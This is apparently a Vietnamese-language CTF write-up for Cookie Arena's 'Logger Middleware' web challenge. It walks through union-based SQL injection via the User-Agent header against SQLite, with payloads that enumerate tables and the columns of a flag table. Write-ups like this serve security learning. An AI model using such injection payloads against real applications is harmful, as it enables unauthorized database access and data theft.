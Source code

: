 ```yaml
---
title: Logger Middleware Writeup - Cookie Arena
date: "2023-08-01 16:22:15"
categories:
  - CTF Writeup
  - Cookie Arena
tags:
  - middleware
  - SQL Injection
published: false
---
```


Link Challenge: [https://battle.cookiearena.org/challenges/web/logger-middleware](https://battle.cookiearena.org/challenges/web/logger-middleware){:target="\_blank"}.

![access log page](/posts/logger-middleware-cookiearena/access-log.PNG)

Tương tự với [Baby Logger Middleware](/posts/baby-logger-middleware-writeup-cookie-arena/) nhưng khó hơn 1 chút xíu, vẫn lại là sql injection.

![error query](/posts/logger-middleware-cookiearena/error-sql.png)

Đã biết số lượng columns trong bảng logger, tiến hành test Union-Based SQLi

![test union-based sqli](/posts/logger-middleware-cookiearena/test-union-based-sqli.png)
_Union-Based SQLi_

Google 1 chút về sqlite, cũng nắm sơ qua về nó rồi thì bắt tay vào viết payload thôi.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from sqlite_master-- -
```

![List Tables](/posts/logger-middleware-cookiearena/tables.png)
_Liệt kê tables trong sqlite_master_

Yep, chính nó, bảng **flag**.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from pragma_table_info('flag')-- -
```

![List Columns](/posts/logger-middleware-cookiearena/columns.png)
_Liệt kê columns trong bảng **flag**_

Cột **secr3t_flag** chắc chắn chứa flag rồi. Let's catch it!

![secr3t_flag](/posts/logger-middleware-cookiearena/flag.png)
_secr3t_flag_
